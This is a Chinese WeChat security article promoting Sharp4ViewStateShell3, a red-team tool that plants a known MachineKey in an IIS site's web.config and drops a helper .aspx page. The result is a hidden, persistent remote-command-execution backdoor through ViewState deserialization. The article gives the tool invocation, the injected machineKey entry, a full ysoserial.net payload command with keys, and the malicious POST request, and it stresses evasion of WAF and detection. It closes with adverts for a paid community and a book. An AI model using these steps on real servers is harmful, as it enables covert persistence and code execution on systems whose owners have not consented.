 #  .NET 基于 MachineKey 一键维持权限，通过 ViewState 反序列化工具实现RCE  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-18 01:53  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，获取初始访问权限仅仅是开始，如何长期、隐蔽地维持权限才是真正的挑战。面对采用**.NET技术栈**  
的Web系统，传统的WebShell容易被安全设备检测，而基于**ViewState反序列化**  
的隐蔽后门技术，则成为红队维持权限的优选方案。  
  
**Sharp4ViewStateShell3**  
 是 Sharp4ViewStateShell 系列工具的最新增强版，通过**自动化修改MachineKey**  
、**动态释放辅助脚本**  
，并结合**ViewState反序列化漏洞**  
，实现无文件隐蔽的远程命令执行。相较于前代版本，支持**自定义站点路径**  
，使其在渗透中更具适应性和稳定性。  
  
**01. 工具基本介绍**  
  
  
  
相较于旧版工具，Sharp4ViewStateShell3 主要优化了以下功能，支持指定站点根目录  
，精准定位web.config  
，避免误操作。  
  
自动在同级目录释放**GenerateViewState.aspx**  
，确保请求路径可控。适配虚拟目录结构  
，使请求更符合正常业务流量，规避WAF检测。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHwHea6dXHrAiazgWlJNhhLd3W50HF0iceWZN4vL3TBP8UvUTM1hROjN6Ug/640?wx_fmt=jpeg&from=appmsg "")  
  
**02. 工具实战用法**  
  
  
  
.NET 的 ViewState 功能本质是为了解决 Web 应用的无状态问题，保存控件状态信息。但如果目标应用开启了 EnableViewStateMac="true"  
 并使用弱或可控的 MachineKey，攻击者就可以伪造 ViewState，借助 ysoserial.net 工具构造反序列化链，从而实现命令执行RCE。  
本文内容和涉及的工具仅限安全研究目的，严禁用于非法渗透测试。使用者需遵守当地法律法规，未经授权测试造成的法律后果自行承担。  
## 2.1 一键修改配置文件  
  
修改目标  
假设目标站点的物理路径为：C:\  
inetpub\wwwroot\，  
在具有写入权限的目录，Upload  
下执行如下命令：  
  
```
C:\inetpub\wwwroot\Upload> Sharp4ViewStateShell3.exe "C:\inetpub\wwwroot"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHweJED4kdFyhAn395ibPbZ9IFdSCDKyJgQ9TkFhlU6vMbf7bRmqliazVicw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHwo531s4aIpLgvsaIB9CtYYzZNdLtPC38oewiauicQvz4I6xrhwkuLNyLw/640?wx_fmt=png&from=appmsg "")  
  
该命令会完成以下操作：修改**web.config**  
，插入预设的MachineKey：  
  
```
<machineKey  validationKey="B8D7C72D38E8972EA6B955F2D4C8D5B0A2E3F4C6A9B1D3E5F7A9C8B6D4E2F1"  decryptionKey="E4D5C6B3A8F9E7D6C5B4A3F2E1D0C9B8A7"  validation="SHA1"  decryption="AES"/>
```  
  
  
**在Upload目录下生成GenerateViewState.aspx**  
，用于获取__VIEWSTATEGENERATOR  
值。  
## 2.2 获取关键参数  
  
访问生成的页面，获取__VIEWSTATEGENERATOR  
：  
  
```
GET /Upload/GenerateViewState.aspx HTTP/1.1Host: target.com
```  
  
  
打开浏览器开发者工具，或使用 Burp 抓包查看响应内容，通常可获取：  
  
```
<input type="hidden" name="__VIEWSTATEGENERATOR"value="CA0B0334"/>
```  
  
## 2.3 生成恶意的ViewState  
  
使用 ysoserial.net 构造反序列化命令，生成后会输出一串 Base64 编码字符串，对应 ViewState 值。具体用法如下所示。  
  
```
ysoserial.exe -p ViewState -g XamlAssemblyLoadFromFile -c "./ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll" \--validationalg="SHA1" \--validationkey="28E969418EFBAF7DAF4A05B12A9F588774129BA306ED094A0C9CA70A45F6C4A83512EB9CF050D7261ADA8E57728B830E540BC26394CEF1F43AEC642AD61D894F" \--decryptionalg="AES" \--decryptionkey="F6F6CB3C4FE662991CEF709C5A2ACDDD228FDF21CD708186736FE4B3E008B3A6" \--generator="DBC4925F"
```  
  
  
该命令会输出Base64编码的__VIEWSTATE  
值，用于后续攻击  
## 2.4 发送恶意请求  
  
构造POST请求，将生成的ViewState数据发送至目标：  
  
```
POST /Upload/GenerateViewState.aspx HTTP/1.1Host: target.comContent-Type: application/x-www-form-urlencodedContent-Length:8921__VIEWSTATE=[恶意Payload]&__EVENTTARGET=&__EVENTARGUMENT=
```  
  
  
如一切配置正确，将在页面响应中看到命令结果，比如 tasklist  
。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibCwETGPtWyQJXCwHWxj47JzIR8aZZFYIQJl0N31k30dUJfcNuFBZl4NL4icTXuBJ4Q9jBVFQJtshA/640?wx_fmt=png&from=appmsg&watermark=1&wxfrom=5&wx_lazy=1&tp=webp "")  
  
综上，  
Sharp4ViewStateShellPlus.exe  
 释放了一个GenerateViewState脚本，更加容易获取__VIEWSTATEGENERATOR 参数值，再加上  
利用了 .NET 的 ViewState 反序列化机制配合自定义 MachineKey，实现持久化远程命令执行，非常适合在红队渗透中用于权限维持。  
文章涉及的工  
具已  
打包在星球，感兴趣的朋友可以加入自取。  
  
**03.NET安全扩展学习**  
  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**04. 技术精华内容**  
  
  
  
从漏洞分析到安全攻防，我们涵盖了 .NET 安全各个关键方面，为您呈现最新、最全面的 .NET 安全知识，下面是公众号发布的精华文章集合，推荐大伙阅读！  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499267&idx=2&sn=1462cf23c9a8568cc80705d2d3a1a69e&scene=21#wechat_redirect)  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499837&idx=2&sn=a8a2483424b1932e7ec931be792744ba&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247493952&idx=4&sn=db68011fb075c1d02268811163646b53&chksm=fa5947adcd2ecebbb1ca6659f289a5e344e37d1136fe0bd9272b5578e4c71bb19bb250e934d3&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247495167&idx=1&sn=9280c55fdc7c9146e549be470cf9f120&chksm=fa594312cd2eca04bfe8fd1fd3890b389d9c700b9b69d897f919addac399bab4f4d2e55f6b4f&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490722&idx=2&sn=c9807daa5548e139a0c67303cb26882a&chksm=fa5ab24fcd2d3b59a85be03e69c655ffd644e8458bc2ec3f572da4b40b43e5003fda756f35b4&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490703&idx=2&sn=e7db1ff662e5b41d9a1806fbdf33e204&chksm=fa5ab262cd2d3b7470f029b9a07d1dd3611e63be910b01a601144efe7d84b5f016f488a354cf&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490700&idx=2&sn=e8a865ada7c743e77fb9e953c5da74b1&chksm=fa5ab261cd2d3b7736387eddfc8524a378a1604552d0c9b55476646f9e8275f48818aab8acad&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488736&idx=2&sn=d24aaa297c51eb620ccdf67af513086d&chksm=fa5aba0dcd2d331bbb22f3f5657199d718c90efed42fcb9cb67ec23d342f887c117e4858f1cb&scene=21#wechat_redirect)  
  
  
**05. 加入安全社区**  
  
  
  
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最专业的技术知识库之一，超 **1200+**  
 成员一起互动学习。星球主题数量近 **600+**  
，精华主题   
230+  
，PDF文档和压缩包   
300+   
。从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的实战指南和最佳实践。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9AiaXibTRdEnEfYuQx76FjZVjmyEWtIaDuDePFFmyRqggiaq2k47pLoib9GZtUCOhaP40WPlhvbiaKZVg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 20+专栏文章  
  
星球文化始终认为授人以鱼不如授人以渔！星球整理出**20+**  
个专题栏目涵盖 **.NET安全 点、线、面、体等知识范围**  
，助力师傅们实战攻防！其中主题包括.NET  内网攻防、漏洞分析、内存马、代码审计、预编译、反序列化、WebShell免杀、命令执行、工具库等等。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa90SJRuwnLy9uZV4icrXiaZlJPQlYJWXTw8HCrF9oTcE3DDgrdFnXo2BA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 海量资源和工具  
  
截至当前，dot.Net安全矩阵星球社区汇聚了   
**600+**  
 个实用工具和高质量PDF学习资料。这些资源涵盖了攻防对抗的各个方面，在实战中能够发挥显著作用，为对抗突破提供强有力的支持。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaqVZW8XsALVA4FNiaj32q8npN82VSeqSKb4fQvLiczFNs0099VRFVQwPA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa63ZXbX3YXLwoeNnjStcRtTbU9hoe6ecO5hhkj2apG1I6tKlkpz5GaQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
## 专属成员交流群  
  
我们还有多个成员专属的  
**内部星球陪伴群**  
，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaAiaouHb6HYza539m9v0ykDoD2JezaArDZBPlJInuabf6XsduzVcjZ0Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
## 已入驻的大咖们  
  
星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多  
**高质量的.NET安全资源**  
，可以说市面上很少见，都是干货。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibEkb2HkMVuw4d7qjcTYUtl04w8xDiaUaJxticro644uWw5XuJ6ZXCNXCticjYWjpXNmp3omQHUNFRPg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
## 欢迎加入我们  
  
dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
**星球门票后期价格随着内容和质量的不断沉淀会适当提高，因此越早加入越好！**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopag09JtYcKpucjZPAlfeqC1ovcQvhrkemAzbURDaVF3InmpQshiatDnyQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
